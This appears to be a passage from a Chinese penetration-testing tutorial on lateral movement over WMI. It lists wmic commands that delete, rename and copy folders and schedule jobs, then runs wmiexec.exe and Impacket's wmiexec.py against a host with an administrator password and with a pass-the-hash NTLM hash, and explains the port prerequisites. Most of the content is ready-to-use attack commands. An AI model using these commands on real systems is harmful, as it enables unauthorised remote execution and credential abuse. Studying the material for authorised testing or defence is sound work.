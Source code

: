 ### 目录管理

```
#列出c盘下名为test的目录
wmic FSDIR where "drive='c:' and file list
#删除c:\good文件夹
wmic fsdir "c:\test" call delete
#重命名c:\test文件夹为abc
wmic fsdir "c:\test" rename "c:\abc"
wmic fsdir where (name='c:\test') rename "c:\abc"
#复制文件夹
wmic fsdir where name='d:\test' call copy "c:\test"
#重命名文件
wmic datafile "c:\test.txt" call rename c:\abc.txt
```

### 计划任务

```
wmic job call create "notepad.exe",0,0,true,false,********154800.000000+480
wmic job call create "explorer.exe",0,0,1,0,********154600.000000+480
```

wmiexec.exe(admin$)
===================

```
wmiexec.exe administrator:root@192.168.10.20
wmiexec.exe administrator@192.168.10.20 -hashes d480ea9533c500d4aad3b435b51404ee:329153f560eb329c0e1deea55e88a1e9
```

![](https://mmbiz.qpic.cn/mmbiz_png/rSyd2cclv2f5Z4QSvmgu0bHZ9vZWUyEI1XonkAESes2jT47L1Atmlkic2eAOoWdcWseib0Lbg4WpQgvObgFONXgw/640?wx_fmt=png)

wmiexec.py
==========

使⽤ wmiexec.py 脚本进⾏横向的前提是：\1. 目标主机开启了 135 端⼝（135 端⼝是 WMIC 默认的管理端⼝） \2. 目标主机开启了 445 端⼝（wimcexec 使⽤ 445 端⼝传回显）

准确说、如果要把输出结果写⽂件的话，需要⽤ smb 回传。如果写注册表，直接⽤ wmi 就能回来了，就不需要⾛ 445 了。sharpwmi 这个项⽬不依赖 139 和 445 端⼝，但是还需要依赖 135 端⼝。

wmiexec.py 脚本使用如下:

```
python2 wmiexec.py administrator:root@192.168.10.20
python2 wmiexec.py administrator@192.168.10.20 -hashes d480ea9533c500d4aad3b435b51404ee:329153f560eb329c0e1deea55e88a1e9
```

![](https://mmbiz.qpic.cn/mmbiz_png/rSyd2cclv2f5Z4QSvmgu0bHZ9vZWUyEIfmiaDhzE3CLNZc319licOWBEcfhKZ37nf5eF8ticuiabibg5wflM3HFiaTnQ/640?wx_fmt=png)

如果对方主机未开启 135 或 445，则报如下错：  

```
[-] Could not connect: [WinError 10060] 由于连接方在一段时间后没有正确答复或连接的主机没有反应，连接尝试失败。
```
